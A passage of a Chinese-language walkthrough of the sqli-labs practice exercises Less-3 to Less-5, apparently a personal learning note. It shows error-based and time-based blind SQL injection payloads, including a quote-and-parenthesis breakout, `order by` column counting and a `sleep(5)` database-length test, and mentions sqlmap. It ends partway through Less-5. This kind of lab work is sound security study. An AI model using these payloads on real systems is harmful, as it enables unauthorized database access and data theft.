 

## 0X03Less-3

GET - Error based - Single quotes with twist string (基于错误的GET单引号变形字符型注入)

```
?id=1  //正常
```

![image-20201110143538742](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110143538742.png)

```
？id=1’  //报错  根据报错可以知道需要闭合（）
```

![image-20201110143616165](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110143616165.png)

？id=1') order by 3 --+ 判断字段长  后续步骤同 1、2

![image-20201110143757067](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110143757067.png)



## 0X04Less-4

GET - Error based - Double Quotes - String （基于错误的GET双引号字符型注入）

?id=1'  页面正常显示

?id=1" 报错   根据报错信息 判断输入的内容被放到一对双引号和括号内

![image-20201110144105850](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110144105850.png)

后续步骤相同

![image-20201110144446724](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110144446724.png)



sqlmap

![image-20201110144707397](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110144707397.png)

## 0X05Less-5

Double Injection - Single Quotes - String (双注入GET单引号字符型注入)

法一

时间延迟型手工注入

时间延迟型手工注入，正确会延迟，错误没有延迟。id无所谓，又不看回显，可以通过浏览器的刷新提示观察延迟情况，但是id正确的时候的回显有利于观察。



爆库长payload   length(database())=8 明显延迟

```
?id=1' and if(length(database())=8,sleep(5),1)--+
```
